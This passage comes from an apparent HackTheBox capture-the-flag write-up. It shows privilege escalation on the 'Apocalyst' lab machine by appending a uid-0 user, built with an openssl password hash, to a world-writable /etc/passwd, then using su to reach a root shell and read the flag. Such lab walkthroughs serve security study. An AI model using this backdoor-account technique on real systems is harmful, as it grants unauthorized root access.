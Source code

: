
It won’t come through in this copy paste, but that `/etc/passwd is writable`
shows up in yellow background with red text! The script is correct:

    
    
    www-data@apocalyst:/etc$ ls -l passwd
    -rw-rw-rw- 1 root root 1637 Jul 26  2017 passwd
    

That’s exploitable.

### Create Root User

I’ll generate a password hash of the format that would show up in a `passwd`
file:

    
    
    www-data@apocalyst:/etc$ openssl passwd -1 0xdf    
    $1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/
    

The format of a line in the `passwd` file is:

    
    
    [user]:[hash including $[type]$[salt]$[hash]]:[userid]:[groupid]:[comment]:[homedir]:[shell]
    

So I’ll use that to generate a line for a new user with user and group id 0
(root):

    
    
    0xdf:$1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/:0:0:0xdf:/root:/bin/bash
    

I’ll add that line to the end of the `passwd` file:

    
    
    www-data@apocalyst:/etc$ echo 'oxdf:$1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/:0:0:0xdf:/root:/bin/bash' >> passwd
    

Now `su oxdf` will prompt for that user’s password, which I just set to
“0xdf”:

    
    
    www-data@apocalyst:/etc$ su oxdf
    Password: 
    root@apocalyst:/etc#
    

Because the oxdf user has userid 0, it is root.

I can grab the flag:

    
    
    root@apocalyst:~# cat root.txt
    1cb9d00f************************
    

[](/2021/02/09/htb-apocalyst.html)

